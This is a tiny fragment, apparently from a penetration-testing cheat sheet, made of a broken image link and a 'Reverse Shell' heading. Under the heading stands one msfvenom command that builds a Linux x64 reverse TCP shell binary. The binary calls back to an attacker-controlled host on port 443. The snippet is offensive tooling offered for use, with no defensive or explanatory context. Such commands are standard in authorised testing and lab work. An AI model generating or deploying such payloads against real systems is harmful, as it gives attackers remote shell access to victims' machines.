 #### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

